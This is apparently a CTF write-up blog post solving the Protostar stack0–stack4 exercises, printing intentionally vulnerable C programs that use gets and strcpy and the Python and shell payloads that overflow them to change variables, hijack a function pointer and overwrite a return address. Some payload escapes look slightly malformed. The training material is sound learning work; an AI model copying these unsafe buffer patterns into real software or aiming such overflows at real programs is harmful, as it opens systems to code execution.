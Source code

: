 ```yaml
---
layout: blog
title: "Exploit Exercise: Protostar"
date: 2020-05-27T18:09:48.220Z
tags:
  - ctf_writeup
---
```


Protostar Challange of https://exploit-exercises.lains.space/

<!--more-->

# Stack

## Stack0

### source:

```c
// stack0.c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

### how to solve:

payload:

```python
python -c "print 'A'*65"  | ./stack0
```

## Stack1

### source:

```c
// stack1.c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

### how to solve

because the hint tells that _protostar_ is little endian, so we have to match the payload:

```bash
./stack1 $(python -c "import struct; print('A'*64 + '\x64\x63\x62\x61' )")
```

## Stack2

### source:

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

### how to solve:

```shell
# set variable
GREENIE=`python -c "import struct; print('A'*68 + '\x0a\x0d\x0a\0d\0a')"`

# export it to the os env
export GREENIE

# check if it's already loaded
echo $GREENIE

# run the program
./stack2
```

one-liner solution:

```shell
GREENIE=`python -c "import struct; print('A'*64 + '\x0a\x0d\x0a\x0d')"` && export GREENIE && ./stack2
```

## Stack3

### source:

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

### how to solve:

```shell
# get win function address

(gdb) info addr win
Symbol "win" is a function at address 0x8048424.

# use win() address on the payload
python -c "print 'A' * 64 + '\x24\x84\x04\x08'" | ./stack3

# output:
calling function pointer, jumping to 0x08048424
code flow successfully changed
```

## Stack4

### source:

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

### how to solve

- override main() return method address
- see win() method by using command `objdump -t /opt/protostar/bin/stack4 | grep win`
- craft payload and try to override return value

payload:

```python
#hitstack4.py
import struct

payload = ""

for s in ['A', 'B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'j', 'k', 'l', 'm', 'n']:
        payload += s.lower()*4

for s in ['A', 'B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'j', 'k', 'l', 'm', 'n']:
        payload += s.lower()*4

ebp = 'EEEE'

eip = struct.pack("I", 0x080483f4)

print payload+ebp+eip
```

```bash
# run the payload
python hitstack4.py | /opt/protostar/bin/stack4
```
